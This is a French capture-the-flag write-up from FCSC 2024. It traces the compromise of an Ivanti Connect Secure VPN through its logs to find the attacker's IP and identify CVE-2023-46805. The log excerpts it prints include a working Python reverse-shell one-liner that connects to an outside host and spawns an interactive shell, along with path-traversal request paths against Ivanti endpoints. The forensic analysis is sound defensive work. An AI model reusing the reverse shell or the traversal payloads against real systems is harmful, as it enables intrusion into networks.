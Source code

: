 ```yaml
---
title: "VPN compromis : analyse de la CVE-2023-46805 Ivanti"
date: 2024-04-15T09:06:22+02:00
draft: false
---
```


*Challenge "Horreur Malheur 2/5 Accès initial" du [FCSC 2024](https://france-cybersecurity-challenge.fr/).*

## Abstract

Ce challenge nous met sur les traces des CVE qui ont impactées les produits Ivanti fin 2023-début 2024. En identifiant les IPs, on observe que l'une d'entre elle a installé un reverse shell sur la machine hôte. Une analyse des logs de l'équipement et d'un exploit nous permet d'identifier précisément la CVE.

---

Le challenge nous donne accès aux journaux d'un équipement compromis. L'objectif est de trouver l'adresse IP de l'attaquant ainsi que la CVE utilisée. Un indice est donné dans l'énoncé : 

> En arrivant à votre bureau le premier jour, vous vous rendez compte que votre prédécesseur vous a laissé une clé USB avec une note dessus : VPN compromis (intégrité). Version 22.3R1 b1647.

Le début est toujours un peu compliqué, étant donné qu'on ne sait pas vraiment ce qu'on observe, quelles sont les technologies utilisées etc... J'ai pour habitude d'ouvrir la plupart des fichiers et de les parcourir succinctement afin de voir à quoi j'ai à faire. En l'occurrence, des logs web et les processus d'une machine.

## Identification de l'IP de l'attaquant

Je fais un regex qui va m'extraire toutes les IPs des logs afin de voir la taille du périmètre. Je pourrai ensuite peut-être identifier des comportements anormaux d'après ces IPs.

```bash
grep -REoh '\b([0-9]{1,3}\.){3}[0-9]{1,3}\b'
```

Cette commande nous sort beaucoup d'adresses similaires, j'ai redirigé la sortie vers un fichier que je traite ensuite avec un script python pour extraire les IPs uniques. On a quelques faux positifs comme des numéros de versions ou ce genre de choses. Heureusement, il n'y a "que" 21 sorties, on peut rechercher chaque ligne avec `grep` pour trier les vraies IP des numéros de version. Cette méthode a l'avantage de nous faire commencer par `20.13.3.0` qui produit un résultat très suspect :

```bash

> grep -R '20\.13\.3\.0'
nodemonlog:21969     1  0.0  0.0 S   452   4852  3808 /bin/sh -c /home/perl5/bin/perl /home/perl/AwsAzureTestConnection.pl ;python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("20.13.3.0",4444));subprocess.call(["/bin/sh","-i"'
[...]
nodemonlog:web        6264     root   23u     IPv6            1707721       0t0        TCP 172.18.0.4:https->20.13.3.0:55102 (ESTABLISHED)
nodemonlog:python    21971     root    3u     IPv4            1465043       0t0        TCP 172.18.0.4:13606->20.13.3.0:krb524 (ESTABLISHED)
nodemonlog:sh        21972     root    0u     IPv4            1465043       0t0        TCP 172.18.0.4:13606->20.13.3.0:krb524 (ESTABLISHED)
```

Le premier match semble être un reverse shell en Python qui initie une connexion vers `20.13.3.0:4444` pour démarer un shell interactif (`/bin/sh -i`). Les lignes suivantes montrent les connexions sortantes ce qui confirme que le code malveillant a fonctionné.

> A noter que les logs contiennent des traces d'autres payloads qui semblent cibler `uWSGI` (je vous laisserai les chercher :p). Ce sont peut-être des scanns automatisés qui passaient par là. Des CVEs existent avec des payloads ressemblant, ce qui m'a fait perdre pas mal de temps et des tentatives de flag (au bout de 10 mauvais flags, le challenge se bloquait).

## Ivanti Connect Secure

On est sur un service web avec des logs et on voit que `/api/v1/cav/client/` est commun à toutes les requêtes. Si on cherche cet endpoint sur internet, on trouve des mentions de CVE sur Ivanti Pulse Connect Secure : [High Signal Detection and Exploitation of Ivanti's Pulse Connect Secure Auth Bypass & RCE](https://www.assetnote.io/resources/research/high-signal-detection-and-exploitation-of-ivantis-pulse-connect-secure-auth-bypass-rce).

Ou bien, on peut utiliser l'indice de l'énoncé : *"VPN compromis (intégrité). Version 22.3R1 b1647"*, on trouvera la technologie utilisée et les CVE associées.

On a 2 CVEs possibles : CVE-2023-46805 (Authentication Bypass) & CVE-2024-21887 (Remote Command Execution). Il reste à trouver la bonne, ce qui n'est pas simple puisqu'elles sont souvent liées dans les articles qui y font mention.

> A noter qu'il est fait mention d'un nouveau payload pour la CVE-2023-46805, `/api/v1/cav/client/status/../../admin/options`, mais il n'y a pas cette trace dans les logs.

En creusant, j'ai trouvé deux exploits sur Github : 
- [CVE-2023-46805.sh](https://github.com/duy-31/CVE-2023-46805_CVE-2024-21887/blob/main/CVE-2023-46805.sh)
- [CVE-2024-21887.sh](https://github.com/duy-31/CVE-2023-46805_CVE-2024-21887/blob/main/CVE-2024-21887.sh)

Elles ciblent l'endpoint `/api/v1/totp/user-backup-code/` avec un path traversal, qui est aussi présent dans nos logs :

```bash
> grep -R '/api/v1/totp/user-backup-code/'

config_rest_server.log.old:[pid: 6299|app: 0|req: 1/1] 172.18.0.4 () {30 vars in 501 bytes} [Fri Mar 15 06:29:17 2024] POST /api/v1/totp/user-backup-code/../../system/maintenance/archiving/cloud-server-test-connection => generated 14 bytes in 164281 msecs (HTTP/1.1 200) 2 headers in 71 bytes (1 switches on core 0)
```

On semble être sur la bonne voie. Néanmoins, la CVE-2024-21887 effectue un path traversal sur l'endpoint `/license/keys-status/` qui n'est pas présent dans nos logs. De plus, la vulnérabilité nécessite un payload encodé qui n'est pas non plus présent. Enfin, la CVE-2023-46805 utilise un path traversal pour se rendre dans `system/`, c'est aussi ce qu'on retrouve dans les logs. Cet article confirme que c'est bien la vulnérabilité de 2023 qui a été exploitée : [Ivanti Connect Secure Auth Bypass and Remote Code Authentication CVE-2024-21887](https://www.iblue.team/incident-response-1/ivanti-connect-secure-auth-bypass-and-remote-code-authentication-cve-2024-21887). On y retrouve le même reverse shell.
